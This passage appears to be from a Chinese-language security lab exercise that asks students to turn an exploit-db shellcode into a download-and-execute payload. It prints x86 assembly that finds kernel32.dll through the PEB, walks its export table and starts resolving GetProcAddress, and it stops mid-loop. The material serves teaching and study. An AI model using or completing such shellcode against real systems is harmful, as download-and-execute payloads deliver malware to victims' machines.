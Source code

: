 ### 3.2 文件下载执行
* 修改示例代码的[shellcode](https://www.exploit-db.com/exploits/48355)，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
  * 找到`kernel32.dll`的基址
    ```asm
    ; Find kernel32.dll base address
     xor ebx, ebx
     mov ebx, [fs:ebx+0x30]  ; EBX = Address_of_PEB
     mov ebx, [ebx+0xC]      ; EBX = Address_of_LDR
     mov ebx, [ebx+0x1C]     ; EBX = 1st entry in InitOrderModuleList / ntdll.dll
     mov ebx, [ebx]          ; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
     mov ebx, [ebx]          ; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
     mov eax, [ebx+0x8]      ; EAX = &kernel32.dll / Address of kernel32.dll
     mov [ebp-0x4], eax      ; [EBP-0x04] = &kernel32.dll
    ```
  * `kernel32.dll`导出表的地址
    ```asm
    ; Find the address of the Export Table within kernel32.dll
     mov ebx, [eax+0x3C]     ; EBX = Offset NewEXEHeader
     add ebx, eax            ; EBX = &NewEXEHeader
     mov ebx, [ebx+0x78]     ; EBX = RVA ExportTable
     add ebx, eax            ; EBX = &ExportTable
     ; Find the address of the Name Pointer Table within kernel32.dll
     mov edi, [ebx+0x20]     ; EDI = RVA NamePointerTable
     add edi, eax            ; EDI = &NamePointerTable
     mov [ebp-0x8], edi      ; save &NamePointerTable to stack frame
    
    ; Find the address of the Ordinal Table
     mov ecx, [ebx+0x24]     ; ECX = RVA OrdinalTable
     add ecx, eax            ; ECX = &OrdinalTable
     mov [ebp-0xC], ecx      ; save &OrdinalTable to stack-frame
    
    ; Find the address of the Address Table
     mov edx, [ebx+0x1C]     ; EDX = RVA AddressTable
     add edx, eax            ; EDX = &AddressTable
     mov [ebp-0x10], edx     ; save &AddressTable to stack-frame
    
    ; Find Number of Functions within the Export Table of kernel32.dll
     mov edx, [ebx+0x14]     ; EDX = Number of Functions
     mov [ebp-0x14], edx     ; save value of Number of Functions to stack-frame
    ```

  * 找到函数的入口点[参考](https://www.exploit-db.com/exploits/48355)
    ```asm
    jmp short functions
    
    findFunctionAddr:
    ; Initialize the Counter to prevent infinite loop
     xor eax, eax            ; EAX = Counter = 0
     mov edx, [ebp-0x14]     ; get value of Number of Functions from stack-frame
    ; Loop through the NamePointerTable and compare our Strings to the Name Strings of kernel32.dll
    searchLoop:
     mov edi, [ebp-0x8]      ; EDI = &NamePointerTable
     mov esi, [ebp+0x18]     ; ESI = Address of String for the Symbol we are searching for 
     xor ecx, ecx            ; ECX = 0x00000000
     cld                     ; clear direction flag - Process strings from left to right
     mov edi, [edi+eax*4]    ; EDI = RVA NameString      = [&NamePointerTable + (Counter * 4)]
     add edi, [ebp-0x4]      ; EDI = &NameString         = RVA NameString + &kernel32.dll
     add cx, 0xF             ; ECX = len("GetProcAddress,0x00") = 15 = 14 char + 1 Null
     repe cmpsb              ; compare first 8 bytes of [&NameString] to "GetProcAddress,0x00"
     jz found                ; If string at [&NameString] == "GetProcAddress,0x00", then end loop
     inc eax                 ; else Counter ++
     cmp eax, edx            ; Does EAX == Number of Functions?
     jb searchLoop           ;   If EAX != Number of Functions, then restart the loop
    